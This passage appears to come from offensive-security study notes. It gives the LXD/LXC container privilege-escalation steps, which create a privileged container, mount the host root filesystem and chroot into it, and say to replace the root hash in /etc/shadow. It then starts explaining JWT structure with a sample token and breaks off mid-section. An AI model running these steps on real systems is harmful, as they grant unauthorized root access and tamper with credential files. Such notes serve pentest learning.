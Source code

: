       lxc init alpine juggernaut -c security.privileged=true
      lxc config device add juggernaut gimmeroot disk source=/ path=/mnt/root recursive=true
      lxc start juggernaut
      lxc list

![image](https://github.com/user-attachments/assets/d3ebab8c-5738-4817-8c9b-5a4bbcadce18)

- Then execute juggernaut

      lxc exec juggernaut sh

- Use `chroot /mnt/root` to change root filesystem since we've mounted it

![image](https://github.com/user-attachments/assets/f7c9426f-b04c-4539-bce9-2afa182b4ec8)

- Then,you can replace the root hash in `/etc/shadow` and login as root

---------------------

### REFERENCES

- [Juggernaut Sec](https://juggernaut-sec.com/lxd-container/)

----------------------

### Attacking JWTs [JSON Web Token]

- It is a standardized format of cryptographically signed json data between systems.It is used for authentication, session handling and access control mechanisms.

### JWT formats

- It consist of 3 headers,which includes `header`,`payload` and `signature`.The header consists of metadata of a token, the payload contains the user details or claim.It should be noted that this headers are base64 encoded e.g

- Typical Jwt:

      eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTY0ODAzNzE2NCwibmFtZSI6IkNhcmxvcyBNb250b3lhIiwic3ViIjoiY2FybG9zIiwicm9sZSI6ImJsb2dfYXV0aG9yIiwiZW1haWwiOiJjYXJsb3NAY2FybG9zLW1vbnRveWEubmV0IiwiaWF0IjoxNTE2MjM5MDIyfQ.SYZBPIBg2CRjXAJ8vCER0LA_ENjII1JakvNQoP-Hw6GG1zfl4JyngsZReIfqRvIAEi5L4HV0q7_9qGhQZvy9ZdxEJbwTxRs_6Lb-fZTDpW6lKYNdMyjw45_alSCZ1fypsMWz_2mTpQzil0lOtps5Ei_z7mM7M8gCwe_AGpI53JxduQOaB5HkT5gVrv9cKu9CsW5MS6ZbqYXpGyOG5ehoxqm8DL5tFYaW3lB50ELxi0KsuTKEbD0t5BCl0aCR2MBJWAbN-xeLwEenaqBiwPVvKixYleeDQiBEIylFdNNIMviKRgXiYuAvMziVPbwSgkZVHeEdF5MQP1Oe2Spac-6IfA
  
- Header-:

      eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9

- Payload-:

        eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTY0ODAzNzE2NCwibmFtZSI6IkNhcmxvcyBNb250b3lhIiwic3ViIjoiY2FybG9zIiwicm9sZSI6ImJsb2dfYXV0aG9yIiwiZW1haWwiOiJjYXJsb3NAY2FybG9zLW1vbnRveWEubmV0IiwiaWF0IjoxNTE2MjM5MDIyfQ

- Base64 decoded value of the payload-:
